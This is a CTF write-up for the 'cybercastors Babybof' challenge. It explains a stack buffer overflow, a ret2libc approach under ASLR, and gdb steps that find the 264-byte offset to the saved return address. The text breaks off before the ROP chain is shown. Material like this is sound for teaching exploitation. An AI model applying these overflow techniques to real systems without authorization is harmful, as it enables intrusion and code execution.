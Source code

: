 First I tried using shellcode, but since ASLR is still enabled on the machine, the stack addresses will be randomized.  
This means that the address of the input buffer will change. I didn't know how to overwrite the return address with the correct address of the shellcode, so I just decided to use ret2libc. (Note: I think using shellcode was the intended solution and not ret2libc).  
Libc is a standard C library with all sort of useful functions. A ret2libc attack can take advantage of functions like system() in libc to spawn a shell.

The first step is to determine how much input we need to overwrite the return address.  
The stack should look like this for main().

```
[    Saved Return Address   ]
[ Saved Frame Pointer (EBP) ]
[         Buffer[255]       ]
[         Buffer[254]       ]
[         Buffer[253]       ]
       . . . . . . . . 
[         Buffer[2]         ]
[         Buffer[1]         ]
[         Buffer[0]         ]

```
We want to write past the buffer, overwrite the saved fram pointer, and then overwrite the saved return address our own address to our exploit.  
We know that the buffer is 256 bytes from Ghidra, so we can use the following to test how much padding we need until we overwrite the return address.  
In the diagram above, writing to buffer will make input go "up" the stack.  
```console
$ python -c 'print "A"*256 + "B"*8 + "C"*8 + "D"*8 + "E"*8' > /tmp/asdf # Saves output to a file
$ gdb ./bof
(gdb) r < /tmp/asdf # Runs with contents of asdf as the input 
Welcome to the cybercastors Babybof

Program received signal SIGSEGV, Segmentation fault.
0x000000000040078b in main ()
(gdb) x/i $rip
=> 0x40078b <main+62>:	req 
```
We receive a segfault when we the binary with our input. It seems we stop at the ret instruction in main.  
A ret instruction is like pop rip, so let's what the ret instruction was trying to get from the stack.  
```console
(gdb) x/gx $rsp
0x7fffffffdee8:	0x4343434343434343
```
It looks like the program was trying to return to the address `0x4343434343434343` which is probably why we got a segfault.  
Since 0x43 is an ascii C, we know that the stack will look like this after gets() is called:
```
[ Saved ret   CCCCCCCC        ]
[ Saved EBP   BBBBBBBB        ]
[ Buffer:     A*256           ]
```
Now we just have to replace CCCCCCCC with the address of our exploit. We'll use a ROP (Return Oriented Programming) Chain to accomplish this.  
